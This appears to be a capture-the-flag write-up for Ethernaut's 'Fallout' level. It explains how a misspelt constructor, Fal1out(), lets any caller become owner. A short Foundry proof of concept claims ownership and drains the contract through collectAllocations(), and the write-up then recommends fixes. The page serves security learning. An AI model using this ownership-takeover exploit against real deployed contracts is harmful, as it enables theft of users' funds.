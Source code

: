 # Level 2 - Fallout

## Objectives

- claim ownership of the contract

## Contract Overview

The `Fallout` contract works like a bank. It allows users (allocators) to
allocate ether into their separate balances.

- User can deposit money via `allocate()` function.
  - Their allocation will be saved in the `allocations` mapping.

```solidity
  function allocate() public payable {
    allocations[msg.sender] = allocations[msg.sender].add(msg.value);
  }
```

- Users can withdraw the money at any time via the `sendAllocation()` function
  by specifying themselves as the beneficiary in the function parameter.
- Users can also send their allocations to other allocators (they need to be
  present in the mapping) via the same `sendAllocation()` function.

  ```solidity
  function sendAllocation(address payable allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }
  ```

- The owner of the `Fallout` contract can withdraw all of the gathered funds at
  any time via the `collectAllocations()` function.
  ```solidity
  function collectAllocations() public onlyOwner {
  msg.sender.transfer(address(this).balance);
  }
  ```
- User can check the current balance of any allocator via the `allocatorBalance()` function.
  ```solidity
  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
  ```

## Static analysis (slither)

Here are the logs from the slither:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/Fallout_slither.png)

## Finding the weak spots

The method has a comment that mentions that it's the contructor. Constructor methods run only right after the contract is deployed and they're commonly used to initialize the contract's state, like assigning an owner in this case. Constructors are declared using the constructor keyword or a function with the same name as the contract, in this case `Fallout`.

This contract is using solidity `^0.6.0` where construct should have the same name as name of contract so it should be named `Fallout()` but we have a misspelt here because what looks like the constructor is just a misspelt function `Fal1out` that can be called by anyone to claim ownership.

In other words the contract does not use the `constructor()` function, but instead a publicly accessible function named Fal1out(). Any account that sends some Ether to this function will be set as the new owner of the contract.

```solidity
  /* constructor */
  function Fal1out() public payable { // <-- this line over here
    owner = msg.sender;
    allocations[owner] = msg.value;
  }
```

## Potential attack scenario (hypothesis)

Attacker can call the faulty constructor and claim ownership of the contract. He can then withdraw all the funds.

## Plan of the attack

1. Attacker can call the `Fal1out()` function which will set him as the owner of the `Fallout` contract.
2. Attacker as the owner can withdraw all the funds.

## Proof of Concept

Here is a simplified version of the unit test exploiting the vulnerability ([complete version here](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/test/02-Fallout.t.sol))

```solidity
        // Attacker can call the `Fal1out()` function which will set him as the owner of the `Fallout` contract.
        emit log_string("Calling Fal1out() function");
        falloutContract.Fal1out{value: 1}();

        emit log_named_address(
            "New owner of the contract: ",
            falloutContract.owner()
        );

        // Attacker as owner can withdraw all the funds
        emit log_named_uint(
            "Balance of the contract before withdrawal: ",
            address(falloutContract).balance
        );

        emit log_string("Calling collectAllocations() function");
        falloutContract.collectAllocations();

        emit log_named_uint(
            "Balance of the contract after withdrawal: ",
            address(falloutContract).balance
        );

        // Test assertion
        assertEq(falloutContract.owner(), attacker);

        assertEq(address(falloutContract).balance, 0);
```

Here are the logs from the exploit contract:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/Fallout.png)

## Recommendations

1. \[CRITICAL\] The constructor of the `Fallout` contract should be fixed. Here
   is an example fix:

```solidity
constructor () public payable {
	owner = msg.sender;
	allocations[owner] = msg.value;
}
```

2. The emission of events should be added to the critical contract functions
   that modify the state of the contract. This will allow for better
   communication with off-chain components. It will also provide users with a
   better sense of what is happening inside the contract.
3. The use of OpenZeppelin TimelockController is recommended on
   `collectAllocations()` function to provide a better user experience and
   increase safety.

## Additional information

You can also read my two other solutions (using console and Remix) on my blog: https://matrix-0wl.gitbook.io/ethernaut/2.-fallout-typo-in-constructor

## References

- [Blog Aditya Dixit](https://blog.dixitaditya.com/series/ethernaut)
- [D-Squared YT - Ethernaut CTF Series](https://www.youtube.com/watch?v=_ylKN2R_o-Y&list=PLiAoBT74VLnmRIPZGg4F36fH3BjQ5fLnz)
- [Mastering Ethereum book](https://github.com/ethereumbook/ethereumbook)

## Acknowledgements

The structure of my reports is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)
- [Joran Honig Twitter thread](https://twitter.com/joranhonig/status/1539578735631949825?s=20&t=Kp6iDNXfRKQUBbsb_Yj5SQ)

The recommendations section is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)
